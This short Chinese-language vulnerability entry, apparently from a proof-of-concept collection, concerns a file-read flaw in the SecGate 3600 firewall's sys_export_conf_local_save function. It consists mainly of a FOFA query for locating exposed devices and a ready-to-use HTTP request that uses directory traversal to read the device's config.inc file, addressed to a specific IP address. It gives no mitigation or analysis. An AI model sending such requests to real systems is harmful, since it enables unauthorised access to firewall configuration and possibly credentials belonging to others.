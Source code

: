 # 网神SecGate 3600防火墙 sys_export_conf_local_save 文件读取漏洞

    ## fofa

```
title="网神SecGate 3600防火墙"
```

## poc

```
GET /?g=sys_export_conf_local_save&file_name=../../../..//secgate/webui/config.inc HTTP/1.1
Host: 111.121.226.71:4433
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip


```
